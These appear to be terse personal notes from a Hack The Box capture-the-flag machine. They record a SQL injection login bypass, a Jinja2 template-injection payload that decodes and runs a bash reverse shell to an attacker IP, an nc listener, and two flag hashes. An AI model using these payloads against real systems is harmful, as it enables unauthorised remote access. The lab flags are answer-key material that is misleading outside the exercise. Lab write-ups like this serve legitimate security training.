at 10.129.85.136/login
can try for sqli

using `admin or 1=1--`

we got hte admin page

there is one 
http://internal-administration.goodgames.htb/

since we can acess it now then add to /etc/hosts

by looking at user login admin and superadministrator

{{cycler.__init__.__globals__.os.popen('echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNy80NDQ0IDA+JjE= | base64 -d | bash').read()}}

└─$ echo -n 'bash -i >& /dev/tcp/10.10.14.17/4444 0>&1' | base64
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xNy80NDQ0IDA+JjE=
                                                                                
┌──(misthios㉿kali)-[~/Downloads]
└─$ nc -nlvp 4444
listening on [any] 4444 ...

dcebc8d4ef9397ad9036c0eb9f36bea9

only volume mount is there nothing else, 

075cbfa6e2f8a12e8024c7b1b08a4909 

cant seem to know the mumbo jumbo of docker
